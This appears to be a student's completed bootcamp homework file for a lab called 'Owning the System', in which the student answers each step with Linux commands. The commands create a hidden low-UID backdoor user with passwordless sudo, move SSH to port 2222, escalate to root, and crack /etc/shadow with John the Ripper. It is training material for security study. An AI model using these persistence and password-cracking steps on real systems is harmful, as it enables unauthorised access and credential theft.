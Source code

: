 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:

    - `sudo adduser --no-create-home sysd` 
   
2. Give your secret user a password: 

    - `no command, answered promps as directed`

3. Give your secret user a system UID < 1000:

    - `sudo usermod -u 869 sysd`

    <img src="C:\Users\Rob\Desktop\University-of-Minnesota-\week6"> 
       
     ![picture](IMAGE\sysdID.png)
                         
                                   
4. Give your secret user the same GID:

    - `sudo groupmod -g 869 sysd`

       <img src="\Rob\Desktop\University-of-Minnesota-\week6\IMAGE\sysdID.png"> 
       
       ![picture](IMAGE/sysdID.png)

5. Give your secret user full `sudo` access without the need for a password:

   -  sudo visudo
   -  enter pass word
   -  /etc/sudoers.tmp folder
   
   -  root    ALL=(ALL:ALL) ALL
   -  sysd    ALL=(ALL:ALL) NOPASSWD:ALL

      <img src="IMAGE/su_acc_nopass.png"> 
      
      ![description](IMAGE/su_acc_nopass.png)

6. Test that `sudo` access works without your password:

    - sudo -l 
    - (ALL : ALL) NOPASSWD: ALL   

NOTE: there are many other ways to modify your user. Here is another example that accomplishes similar tasks that are asked in the homework questions but done in one command: 

sudo adduser --no-create-home --uid 869 --disabled-password sysd

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    -sudo nano /etc/ssh/sshd_config
    - Port 2222

    <img src="/week6/IMAGE/step_2.png"> 

    ![description](IMAGE/step_2.png)

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `sudo systemctl restart ssh`

2. Exit the `root` account:
    - `exit`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysadmin@192.168.6.105 -p 2222`

4. Use `sudo` to switch to the root user:
    - `sudo su`

    <img src="/week6/IMAGE/step3_1.png"> 

    ![description](IMAGE/step3_1.png)

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `ssh sysd@192.168.6.105 -p 2222`

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - `sudo john /etc/shadow`

    <img src="/week6/IMAGE/passwd8.png"> 

    ![description](IMAGE/passwd8.png)

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

